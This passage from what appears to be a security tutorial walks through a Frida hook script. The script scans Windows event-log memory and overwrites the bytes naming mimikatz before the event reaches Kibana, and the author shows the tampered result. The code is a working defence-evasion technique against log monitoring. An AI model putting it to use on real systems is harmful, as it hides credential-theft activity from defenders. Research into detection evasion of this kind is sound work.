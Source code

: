 ```
                pattern
            );
            res.forEach(function(f){
                send("Patching: " + f.address);
                Memory.protect(f.address, 16, "rwx");
                f.address.writeByteArray([0x6c,0x00,0x6f,0x00,0x6c,0x00,0x69,0x00,0x6b,0x00,0x61,0x00,0x74,0x00,0x7a,0x00])
            });

    //log(hexdump(this.ptr, {length: this.size}));
  }
}

```

Let's break down the script piece by piece.

On the first part, we extract thee arguments we're going to need for our analysis. The 7th and 8th arguments are respectively the pointer to the string that will be populated with the formatted event and the size of the event itself:
```
onEnter: function (log, args, state) {
  this.ptr = args[7];
  this.size = args[6].toInt32();

},
```

After the function terminates, we perform a synchronous scan of the memory starting from the address we previously extracted. The `pattern` variable will hold the bytes which we're scanning for:
```
var res = Memory.scanSync(
    this.ptr,
    this.size,
    pattern
);
```

For each result of the scan, we patch the bytes with something else:

```
res.forEach(function(f){
    send("Patching: " + f.address);
    Memory.protect(f.address, 16, "rwx");
    f.address.writeByteArray([0x6c,0x00,0x6f,0x00,0x6c,0x00,0x69,0x00,0x6b,0x00,0x61,0x00,0x74,0x00,0x7a,0x00])
});
```

Let's try executing mimikatz:

![](91b0bed64528d8acb5e56224fbd3f933.png)

Within Kibana, the data was correctly tampered:

